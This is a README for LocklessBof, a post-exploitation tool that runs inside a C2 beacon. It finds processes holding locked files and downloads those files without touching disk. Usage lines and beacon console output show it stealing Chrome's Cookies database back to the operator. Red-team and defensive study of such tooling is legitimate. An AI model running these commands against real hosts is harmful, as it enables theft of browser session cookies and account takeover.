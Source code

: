 # LocklessBof
A Beacon Object File (BOF) implementation of [Lockless](https://github.com/GhostPack/Lockless) by [HarmJ0y](https://github.com/HarmJ0y), designed to enumerate open file handles and facilitate the fileless download of locked files. Within this project, you'll find two BOFs: LocklessEnum and LocklessDownload.

## LocklessEnum
LocklessEnum can be used to enumerate open file handles to a locked file. Upon detecting an open file handle, LocklessEnum supplies the user with information including the associated Process ID (PID) and the handle ID, which can then be supplied as input to LocklessDownload to download the locked file. 
### LocklessEnum Usage
```
Usage: lockless-enum <filename> <processname>
Example: 
   lockless-enum Cookies 
   lockless-enum Cookies Chrome
lockless-enum Options: 
    <filename> -    (Required): The locked file's name.
    <processname> - (Optional): Narrow handle enumeration to the specified process. A partial name match is allowed (e.g., 'chro' for 'chrome')
```
## LocklessDownload
LocklessDownload can be used to download locked files. LocklessDownload requires the Process ID of the target process containing the open file handle, along with either the handle ID of the open file handle for the target file, or the filename to be downloaded. 
### LocklessDownload Usage
```
Usage: lockless-download <pid> <key> <value>
Example: 
   lockless-download 789 filename Cookies 
   lockless-download 789 handle_id 696
lockless-download Options: 
    <pid> -     (Required): Process ID (PID) of the target application, queried for handles to desired locked file
    <key> -     (Required): This can either be 'filename' or 'handle_id'
    <value> -   (Required): If 'filename' is chosen, provide the full name of the file to be downloaded. The filename is case sensitive
                            If 'handle_id' is chosen, provide the handle ID to the locked file to be downloaded
```
## Example
Find out which process has a handle to the locked "Cookies" file and retrieve the handle id
```
beacon> lockless-enum Cookies
[+] host called home, sent: 6088 bytes
[+] received output:
Attempting to enumerate handle to file Cookies from  processes
[+] received output:
Process ID 2940 [Handle ID 1092] - Cookies [\Device\HarddiskVolume3\Users\defaultuser\AppData\Local\Google\Chrome\User Data\Profile 1\Network\Cookies]
```
Download the locked "Cookies" file using the identified pid and handle id
```
beacon> lockless-download 2940 handle_id 1092
[+] host called home, sent: 8796 bytes
[+] received output:
Attempting file download using handle_id 1092 from Process ID 2940
[+] received output:
Found file handle!
[+] received output:
File size is 524288

[*] started download of Cookies (524288 bytes)
[*] download of Cookies is complete
[+] received output:
Downloaded file Cookies from process ID: 2940
```
Download the locked "Cookies" file using the file name
```
beacon> lockless-download 2940 filename Cookies
[+] host called home, sent: 8810 bytes
[+] received output:
Attempting file download of filename Cookies from Process ID 2940
[+] received output:
Found file handle!
[+] received output:
File size is 524288

[*] started download of Cookies (524288 bytes)
[*] download of Cookies is complete
[+] received output:
Downloaded file Cookies from process ID: 2940
```
## References
[ProcessListHandles](https://github.com/trustedsec/CS-Remote-OPs-BOF/tree/main/Remote/ProcessListHandles) by [TrustedSec](https://github.com/trustedsec)  
[Lockless](https://github.com/GhostPack/Lockless) by [HarmJ0y](https://github.com/HarmJ0y)  
[Fileless download](https://github.com/fortra/nanodump) by [Fortra](https://github.com/fortra)  
Also big thanks to [KingOfTheNOPs](https://github.com/KingOfTheNOPs) for helping me resolve access mask issues with the handles. 
